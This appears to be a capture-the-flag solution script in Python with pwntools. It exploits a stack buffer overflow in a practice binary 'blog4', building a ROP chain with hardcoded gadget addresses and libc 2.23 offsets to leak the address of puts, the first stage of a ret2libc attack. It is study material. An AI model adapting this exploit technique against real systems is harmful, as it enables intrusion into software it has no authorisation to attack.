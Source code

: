 > 较低版本的 glibc，对应题解2

```python
# -*- coding: utf-8 -*-

'''
[*] '/home/wkyuu/Desktop/temp/blog4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
'''

from pwn import *
import pwn

p64 = pwn.p64
u64 = pwn.u64

# context(log_level='debug', terminal=['tmux', 'splitw', '-h'])
context(log_level='debug')
fileName = './blog4'
p = process(fileName)
elf = ELF(fileName)

# bin
bin_func_main = elf.sym['main']
bin_func_vuln = elf.sym['vuln']
bin_puts_plt = elf.sym['puts']
bin_puts_got = elf.got['puts']
bin_pop_rdi_ret = 0x4012A3
bin_ret = 0x4012A4

# libc
# libc6_2.23-0ubuntu3_amd64 旧版本
libc_puts = 0x6f5d0
libc_system = 0x45380
libc_str_bin_sh = 0x18c58b

def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
    else:
        log.success('# {} => {}\n'.format(msg, value))

gdbscript = '''
b *vuln+36
b *vuln+55
c
c
c
'''
# gdb.attach(p, gdbscript=gdbscript)

# leak_libc
logger('leak_libc')
payload = b'a' * (0xb + 0x8) + p64(bin_pop_rdi_ret) + \
    p64(bin_puts_got) + p64(bin_puts_plt) + p64(bin_func_vuln)
p.sendlineafter(b'input sth:\n', payload)
p.recvuntil('\x0a')

```